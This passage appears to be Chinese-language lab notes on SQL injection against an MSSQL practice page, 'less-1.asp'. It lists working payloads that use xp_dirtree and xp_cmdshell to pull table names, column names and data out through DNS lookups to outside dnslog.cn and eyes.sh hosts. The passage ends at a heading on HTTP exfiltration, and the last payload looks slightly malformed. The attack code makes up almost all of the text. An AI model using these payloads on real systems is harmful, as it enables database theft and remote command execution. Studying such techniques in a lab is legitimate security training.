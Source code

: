 #### 获取表名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables));exec('master..xp_dirtree "//'%2B@a%2B'.06z43e.dnslog.cn//a"') --+
```

![image-20240905205520289](./assets/image-20240905205520289.png)

#### 获取字段名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```

![image-20240905205733240](./assets/image-20240905205733240.png)

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```

![image-20240905205640015](./assets/image-20240905205640015.png)

#### 获取数据

```sql
id=1';declare @a varchar(8000);set @a=(select top uagent from emails) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

------

# http数据外带
